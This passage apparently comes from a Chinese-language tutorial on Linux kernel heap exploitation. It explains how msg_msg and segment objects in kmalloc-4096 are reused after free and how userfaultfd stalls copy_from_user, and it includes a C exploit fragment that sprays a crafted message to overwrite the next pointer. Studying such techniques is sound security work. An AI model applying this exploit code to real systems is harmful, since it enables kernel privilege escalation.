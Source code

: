 ![2-4](/images/posts/msg_msg/2-4.png)

**kmalloc-4096释放顺序**：注意，前面的exp中，我们泄露了`kmalloc-4096`的地址（**QID #1** 中消息2的`msg_msg`地址），前面我们第2次调用`msgrcv()`时，内核调用 `do_msgrcv()` -> `free_msg()` 先释放 `kmalloc-4096`的`msg_msg`，再释放`kmalloc-4096`的segment，由于后进先出，分配新的消息时会先获取segment对应的`kmalloc-4096`，所以新的`msg_msg`占据之前的segment，新的segment占据之前的`msg_msg`。

**申请消息-QID #2**：子线程创建新消息，首先创建队列**QID #2** [2]，再调用`msgsnd()`创建0x1ff8大小的消息（0x30的头和0x1fc8的数据），内核中会创建`0x30+0xfd0`大小的`msg_msg`和`0x8+0xff8`大小的`msg_msgseg`。

用户传入数据位于`page_1 + PAGE_SIZE - 0x10`，使用 [userfaultfd](https://www.kernel.org/doc/html/latest/admin-guide/mm/userfaultfd.html) 来监视 `page_1 + PAGE_SIZE` 位置，等待页错误，**第2个页错误**。当`load_msg()`调用`copy_from_user()`拷贝时触发页错误，结果如下图所示，现在我们已知新的segment地址（**QID #1** 中消息2的`msg_msg`地址），原因已经阐明。**QID #2** 布局如下图所示：

```c
[...]

void *allocate_msg1(void *_)
{
    printf("[Thread 1] Message buffer allocated at 0x%lx\n", page_1 + PAGE_SIZE - 0x10);

    if ((qid[2] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1) // [2] 创建队列 QID #2 
    {
        perror("msgget");
        exit(1);
    }

    memset(page_1, 0, PAGE_SIZE);
    ((unsigned long *)(page_1))[0xff0 / 8] = 1;

    if (msgsnd(qid[2], page_1 + PAGE_SIZE - 0x10, 0x1ff8 - 0x30, 0) < 0) // [3] 调用msgsnd() 创建0x1ff8大小的消息，新的`msg_msg`占据之前的segment，新的segment占据之前的`msg_msg`。
    {
        puts("msgsend failed!");
        perror("msgsnd");
        exit(1);
    }

    puts("[Thread 1] Message sent, *next overwritten!");
```